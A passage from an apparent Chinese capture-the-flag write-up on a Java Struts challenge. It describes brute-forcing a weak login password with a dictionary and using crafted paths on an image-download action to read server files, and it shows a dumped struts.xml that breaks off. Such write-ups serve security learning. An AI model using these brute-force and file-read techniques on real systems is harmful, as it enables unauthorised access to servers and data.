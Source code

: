 初始用户名是:homamamama 不过密码改了,拿弱口令字典可以爆出来密码是6yhn7ujm

然后在访问list目录，然后什么都没有发生…….

然后可以看到这个是java写的应用，构造路径直接读取一下web.xml

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://upload-images.jianshu.io/upload_images/9172841-88753feb02c3351c.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

直接在github上找框架

```
https://github.com/martin-wong/iCloud
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://upload-images.jianshu.io/upload_images/9172841-18470fb34cfdee9b.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)<br>[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://upload-images.jianshu.io/upload_images/9172841-64ff9bcef17ab67f.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)<br>
然后直接构造路径读取文件

```
配置文件
HTTP/1.1 200 
Content-Disposition: attachment;filename="bg.jpg"
Content-Type: image/jpeg
Date: Fri, 22 Jun 2018 03:51:44 GMT
Connection: close
Content-Length: 2243

&lt;?xml version="1.0" encoding="UTF-8"?&gt;

&lt;!DOCTYPE struts PUBLIC
        "-//Apache Software Foundation//DTD Struts Configuration 2.3//EN"
        "http://struts.apache.org/dtds/struts-2.3.dtd"&gt;
&lt;struts&gt;
    &lt;constant name="strutsenableDynamicMethodInvocation" value="false"/&gt;
    &lt;constant name="struts.mapper.alwaysSelectFullNamespace" value="true" /&gt;
    &lt;constant name="struts.action.extension" value=","/&gt;
    &lt;package name="front" namespace="/" extends="struts-default"&gt;
        &lt;global-exception-mappings&gt;
            &lt;exception-mapping exception="java.lang.Exception" result="error"/&gt;
        &lt;/global-exception-mappings&gt;
        &lt;action name="zhuanxvlogin" class="com.cuitctf.action.UserLoginAction" method="execute"&gt;
            &lt;result name="error"&gt;/ctfpage/login.jsp&lt;/result&gt;
            &lt;result name="success"&gt;/ctfpage/welcome.jsp&lt;/result&gt;
        &lt;/action&gt;
        &lt;action name="loadimage" class="com.cuitctf.action.DownloadAction"&gt;
            &lt;result name="success" type="stream"&gt;
                &lt;param name="contentType"&gt;image/jpeg&lt;/param&gt;
                &lt;param name="contentDisposition"&gt;attachment;filename="bg.jpg"&lt;/param&gt;
                &lt;param name="inputName"&gt;downloadFile&lt;/param&gt;
            &lt;/result&gt;
            &lt;result name="suffix_error"&gt;/ctfpage/welcome.jsp&lt;/result&gt;
        &lt;/action&gt;
    &lt;/package&gt;
    &lt;package name="back" namespace="/" extends="struts-default"&gt;
        &lt;interceptors&gt;
            &lt;interceptor name="oa" class="com.cuitctf.util.UserOAuth"/&gt;
            &lt;interceptor-stack name="userAuth"&gt;
                &lt;interceptor-ref name="defaultStack" /&gt;
```